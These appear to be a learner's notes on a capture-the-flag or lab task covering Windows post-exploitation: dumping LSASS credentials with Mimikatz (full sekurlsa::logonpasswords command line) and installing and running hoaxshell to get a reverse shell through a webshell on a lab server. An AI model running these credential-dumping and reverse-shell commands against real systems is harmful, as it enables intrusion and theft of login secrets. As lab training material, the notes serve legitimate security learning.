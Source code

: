 Now that we have administrator access to the machine, we can follow our post-exploitation methodology and dump credentials. To aid us in dumping credentials, we will be using the infamous tool Mimikatz. We will also be utilizing Covenant to drop Mimikatz.

![[Task 36 -  That's not a cat that's a dawg-20241014150208220.webp]]

Mimikatz is a well-known tool for a variety of post-exploitation activities. We will be using it to dump credentials from LSASS. [T1003](https://attack.mitre.org/techniques/T1003/001/) From MITRE ATT&CK. Described from ATT&CK as "Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores various credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct Lateral Movement using Use Alternate Authentication Material."  

To run Mimikatz, we can use Covenant to drop the binary. Covenant has a task for Mimikatz; however, it is outdated and does not work on modern Windows systems, so we will need to compile or download our binary to use.  

We can upload a Mimikatz binary using the `Upload` task and obtain a binary from the releases page [https://github.com/gentilkiwi/mimikatz/releases/](https://github.com/gentilkiwi/mimikatz/releases/) or compile the project yourself. Covenant will present you with a pop-up window to drop the file onto, and Covenant will host the file for you and upload the file to the server. Find an example of the window below.

![[Task 36 -  That's not a cat that's a dawg-20241014150423796.webp]]

To ensure a successful upload, you will need to specify where the file is to be uploaded on the target and the file's location on your attacking machine. Find an example of file path syntax below.

![[Task 36 -  That's not a cat that's a dawg-20241014150512569.webp]]

Once the file is uploaded, we can use the `Shell` task to execute the binary. Since Mimikatz has its own CLI, you will need to send all commands to be run within Mimikatz in one command so that Covenant can interpret it.  

---

Now that we have Mimikatz executing on the system, we can look through its modules and syntax. Find an outline of a few Mimikatz modules below.  

- `standard`
- `privilege`
- `crypto`
- `sekurlsa`
- `kerberos`
- `lsadump`
- `vault`
- and more

For this task, we will be focusing on the `privilege`, `token`, and `sekurlsa` modules. Within each of these modules, a number of commands can be used to perform various operations. For more information about all the features of Mimikatz, check out the GitHub wiki, [https://github.com/gentilkiwi/mimikatz/wiki](https://github.com/gentilkiwi/mimikatz/wiki).

The first module we will be looking at is `privilege`, from this module, we will use the `privilege::debug` command. This command will allow us to ensure that Mimikatz is running at the proper privilege levels before performing any operations.

The second module we will be looking at is `token`, from this module, we will use the `token::elevate` command. This command will perform token impersonation to gain elevated integrity on the system. Token elevation is not always necessary but can help to troubleshoot when Mimikatz is struggling to dump credentials.

The third module we will be looking at is `sekurlsa`, this module will contain a majority of the commands to interact with and abuse LSASS. From this module, we will be using the `sekurlsa::logonpasswords`. This command will dump the credentials of accounts already authenticated to the endpoint. We can also use the command `lsadump::lsa`, which has a similar function but will dump LSASS credentials from memory.  

We can put all of these commands together to make a final Mimikatz command that we can use in Covenant. If using this tool normally, you could send each one of these commands separately, but we have to send them a little bit differently because we are using Covenant. Find example syntax below for Mimikatz.  

Syntax: `.\Mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit`

It is important that you exit Mimikatz, or your shell task will never complete.

We should now have a working method to dump credentials on the endpoint.


> [!failure]
> Forget all the above because as you've been advised earlier we're not going to use COVENANT.


---

# Your job

## hoaxshell

Hoaxshell is a Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:

![[Task 36 -  That's not a cat that's a dawg-20241101160241987.webp]]

More info [here](https://github.com/t3l3machus/hoaxshell).

### Installing hoaxshell on the attacking machine

```

git clone https://github.com/t3l3machus/hoaxshell

cd ./hoaxshell

sudo pip3 install -r requirements.txt

chmod +x hoaxshell.py

```

  
  

> [!tip]
> If you have some trouble witn pip3 you can run


```
  sudo pip3 install -r requirements.txt --break-system-packages
```
  

### Running hoaxshell

```
python3 hoaxshell.py -s <tun0 IP>
```
  
 
![[Task 36 -  That's not a cat that's a dawg-20241101160504921.webp]]

- Go back to the webshell and paste the green code on the field.
- Click on the Execute button.
- You'll get a Reverse Shell on S-SRV01 with high privileges.

	![[Task 36 -  That's not a cat that's a dawg-20241104150300244.webp]]





## Mimikatz

